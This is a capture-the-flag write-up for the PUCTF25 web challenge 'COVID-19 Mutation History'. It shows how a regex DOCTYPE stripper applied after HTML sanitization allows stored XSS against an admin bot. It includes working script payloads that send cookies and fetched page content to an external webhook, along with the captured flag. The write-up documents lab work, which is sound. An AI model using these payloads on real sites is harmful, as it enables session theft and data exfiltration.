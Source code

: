 # COVID-19 Mutation History

- name: COVID-19 Mutation History
- solves: 2
- points: 500
- categories
  - web

## solution

Submit the following as the mutation entry:

```html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd>
<script>fetch(`http://app.puctf25:8080/mutation.php?id=1`).then(a=>a.text()).then(a=>window.location.href=`https://webhook.site/6ce05aa6-50c8-468c-8b55-fe3bcef91c01/?content=`+encodeURIComponent(a))</script>">
```

Replace `https://webhook.site/6ce05aa6-50c8-468c-8b55-fe3bcef91c01/` with your own webhook that can capture requests.

The website should give you a URL to the new mutation entry: `http://chal.polyuctf.com:41340/review.php?id=19&reviewToken=171523fa6c7e58744fcf66bcf2f46fdef4be68e1849a7610111cbe2a2df2f6ea`. Change the URL host to`app.puctf25:8080`: `http://app.puctf25:8080/review.php?id=19&reviewToken=171523fa6c7e58744fcf66bcf2f46fdef4be68e1849a7610111cbe2a2df2f6ea`. Then submit it to the admin bot on <http://chal.polyuctf.com:41340/report>.

Your webhook should capture the Flag Variant page content:

```html
<!DOCTYPE html> <html lang="en"> <head> <meta charset="UTF-8"> <meta name="viewport" content="width=device-width, initial-scale=1.0"> <link rel="stylesheet" href="/static/css/main.css"> <title>Mutation Entry | COVID-19 Mutation History</title> </head> <body> <div class="navbar"> <a href="/">Home</a> <a href="/submit.php">Submit New Mutation Entry</a> <a href="/logout.php">Logout (Username: admin)</a> </div> <div class="container"> <h1>Mutation Entry</h1> <div class="mutation-entry"> <h2 class="mutation-entry-title">Flag Variant (F.1.3.3.7)</h2> <p class="mutation-entry-details">PUCTF25{mUt4T1ON_x55_15_4l5o_4NoTH3r_cOv1d19_MUt4t1oN_v4R14Nt_55b02133dcd0b67440bc04a47c5d16e2}</p> </div> </div> </body> </html>
```

It contains the flag: `PUCTF25{mUt4T1ON_x55_15_4l5o_4NoTH3r_cOv1d19_MUt4t1oN_v4R14Nt_55b02133dcd0b67440bc04a47c5d16e2}`.

## process

The mention of an admin bot in the challenge description and that you can submit limited HTML code makes it obvious you need to perform XSS on the admin bot. It is also obvious that the flag should be inside the Flag Variant page, by its name and that we cannot access it directly.

Obviously, it would be too easy if you can submit arbitrary HTML code. So let's look at how the server restricts our HTML code. In `submit.php`, our submission content is processed by `sanitizeHTML`. Its code is located in `helper/utils.php`:

```PHP
function sanitizeHTML($unsafeHtml) {
    $dom = new DOMDocument();
    $dom->loadHTML($unsafeHtml, LIBXML_HTML_NOIMPLIED | LIBXML_HTML_NODEFDTD);

    $xpath = new DOMXPath($dom);
    // we don't want HTML comments
    $comments = $xpath->query("//comment()");
    foreach ($comments as $comment) {
        $comment->parentNode->removeChild($comment);
    }

    $elements = $dom->getElementsByTagName("*");
    for ($i = $elements->length - 1; $i >= 0; $i--) {
        $element = $elements->item($i);

        // only allow whitelisted HTML tags, as defined in 
        // constant variable `ALLOWED_HTML_TAGS`
        if (!isset(ALLOWED_HTML_TAGS[$element->nodeName])) {
            $parent = $element->parentNode;
            $parent->removeChild($element);
        }

        // we don't want any attributes in all HTML elements
        while ($element->hasAttributes()) {
            $attributeName = $element->attributes->item(0)->name;
            $element->removeAttribute($attributeName);
        }
    }

    // remove HTML element `DOCTYPE`
    return preg_replace("/<!DOCTYPE\s+HTML.*>/", "", $dom->saveHTML());
}
```

We can see that the function loads the HTML code as a DOM document, removes all HTML comments, keeps whitelisted tags, removes all tag attributes, convert the DOM document back into HTML code, and finally perform a string replacement.

Past CTF experience tells me that the last string replacement is suspicious. The pattern is as follows:

Assume we have some function `sanitize` that sanitize something _properly_ \(e.g. some widely used sanitization library\), meaning there are no known vulnerabilities to exploit it. Then, the following code is probably _not_ exploitable \(unless you find zero-day exploits\):

```pseudocode
output = sanitize(input)
```

But the following code would be much more exploitable:

```pseudocode
output = sanitize(input)
output = some_string_replacement(output)
```

Often, the `some_string_replacement` is intended to "sanitize" the `input` further to make the code _less_ exploitable. But it turns out this does the opposite: it makes the code _more_ exploitable. This is because often, the `sanitize` function assumes its output is _not_ modified further afterwards. A funny analogy would be 1 + 1 is less than 1 \(sanitizing twice is not sanitizing\).

Applying this pattern to above, `some_string_replacement(output)` would be `preg_replace("/<!DOCTYPE\s+HTML.*>/", "", $dom->saveHTML())`. So now we need to craft an exploit to exploit this line. Some trial and error yields the following code:

```HTML
<!DOCTYPE HTML PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd>
(arbitrary HTML code not containing double quotes)">
```

The above HTML code, after the first sanitization step \(i.e. before the string replacement\), comes out intact. The `(arbitrary HTML code not containing double quotes)` is treated as part of a string, so the first sanitization step keeps it intact. Then, after the second sanitization step \(i.e. the string replacement\), it becomes:

```HTML

(arbitrary HTML code not containing double quotes)">
```

Now we can insert arbitrary HTML code, which means we can use `<script>`! Now, we just need to exfiltrate the Flag Variant page.

My first attempt was simply obtaining the cookie, which should include the PHP session cookie:

```html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd>
<script>window.location.href=`https://webhook.site/6ce05aa6-50c8-468c-8b55-fe3bcef91c01/?`+document.cookie</script>">
```

But the cookie obtained was empty. The reason being that the PHP session cookie is `HttpOnly`. In `helper/utils.php`:

```PHP
if (session_status() === PHP_SESSION_NONE) {
    session_start(COOKIE_ATTRIBUTES);
}
```

where `COOKIE_ATTRIBUTES` is defined in `helper/constant.php` as:

```PHP
define("COOKIE_ATTRIBUTES", array(
    "cookie_httponly" => true,
    "cookie_samesite" => "Strict"
));
```

So the session cookie can only be obtained by the admin bot sending a request and we receiving the request and inspect its headers. Further, the `strict` `samesite` policy means we cannot send the cookie cross-site. So it seems like we cannot obtain the PHP session cookie directly.

However, this is easy to solve once you realize you just need to get the flag, and obtaining the cookie is only one of the possible methods. Thus instead, we ask the admin bot to fetch the Flag Variant page content and send it to the webhook directly:

```html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd>
<script>fetch(`http://app.puctf25:8080/mutation.php?id=1`).then(a=>a.text()).then(a=>window.location.href=`https://webhook.site/6ce05aa6-50c8-468c-8b55-fe3bcef91c01/?content=`+encodeURIComponent(a))</script>">
```

We need to use <http://app.puctf25:8080/> instead of <http://chal.polyuctf.com:41340/> because the former is the host the admin bot uses to login.

And the webhook captures the Flag Variant page content:

```html
<!DOCTYPE html> <html lang="en"> <head> <meta charset="UTF-8"> <meta name="viewport" content="width=device-width, initial-scale=1.0"> <link rel="stylesheet" href="/static/css/main.css"> <title>Mutation Entry | COVID-19 Mutation History</title> </head> <body> <div class="navbar"> <a href="/">Home</a> <a href="/submit.php">Submit New Mutation Entry</a> <a href="/logout.php">Logout (Username: admin)</a> </div> <div class="container"> <h1>Mutation Entry</h1> <div class="mutation-entry"> <h2 class="mutation-entry-title">Flag Variant (F.1.3.3.7)</h2> <p class="mutation-entry-details">PUCTF25{mUt4T1ON_x55_15_4l5o_4NoTH3r_cOv1d19_MUt4t1oN_v4R14Nt_55b02133dcd0b67440bc04a47c5d16e2}</p> </div> </div> </body> </html>
```

It contains the flag: `PUCTF25{mUt4T1ON_x55_15_4l5o_4NoTH3r_cOv1d19_MUt4t1oN_v4R14Nt_55b02133dcd0b67440bc04a47c5d16e2}`.
